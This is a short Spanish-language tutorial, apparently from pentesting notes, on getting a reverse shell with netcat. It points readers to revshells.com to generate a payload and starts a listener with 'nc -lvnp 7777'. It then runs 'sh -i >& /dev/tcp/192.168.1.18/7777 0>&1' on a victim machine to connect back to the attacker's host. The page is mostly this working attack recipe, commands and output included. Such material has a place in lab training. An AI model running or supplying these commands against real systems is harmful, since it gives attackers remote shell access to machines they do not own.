



# Uso de netcat

* Primero en la página web https://www.revshells.com/ generaremos la reverse-shell poniendo la IP(ATACANTE) & Puerto:&#x20;


<figure><figcaption></figcaption></figure>

* Con el comando que nos da en la parte de listener nos pondremos en escucha con netcat por un puerto por ejemplo 7777:

```bash
> nc -lvnp 7777
listening on [any] 7777 ...
```

* Y con la máquina victima pondremos el comando para conectarnos a nuestra máquina de atacante con netcat:

```bash
~$ sh -i >& /dev/tcp/192.168.1.18/7777 0>&1
```

Y veremos que al lanzar el comando anterior nos conectaremos y habremos realizado la reverse-shell: &#x20;

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

